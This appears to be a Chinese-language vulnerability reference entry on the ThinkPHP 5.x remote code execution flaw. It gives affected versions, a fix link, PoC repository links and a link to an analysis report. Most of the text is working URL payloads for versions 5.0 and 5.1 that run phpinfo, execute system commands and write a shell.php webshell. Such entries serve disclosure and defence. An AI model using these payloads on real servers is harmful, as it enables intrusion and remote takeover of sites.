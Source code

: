 1. `漏洞`：ThinkPHP远程代码执行
2. `等级`：高危
3. `影响范围`：5.x < 5.1.31, <= 5.0.23
4. `漏洞描述`：框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的getshell漏洞。
5. `修复方案`：<https://blog.thinkphp.cn/869075>
6. `PoC`：<https://github.com/heroanswer/thinkphp_rce_poc.git>
7. `payload`: 

```php
5.0版本POC（不唯一）:
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
命令执行：?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=[系统命令]
文件写入：?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php&vars[1][1]=<?php phpinfo();?>

5.1版本POC（不唯一）
?s=index/\think\Request/input&filter=phpinfo&data=1
命令执行：?s=index/\think\Request/input&filter=system&data=[系统命令]
文件写入：?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
```

## 漏洞复现代码

```
https://github.com/fakeblog/TH5.0_GETSHELL.git
```

## 漏洞分析：

知道创宇404实验室:[Thinkphp5 远程代码执行漏洞事件分析报告](https://paper.seebug.org/770/)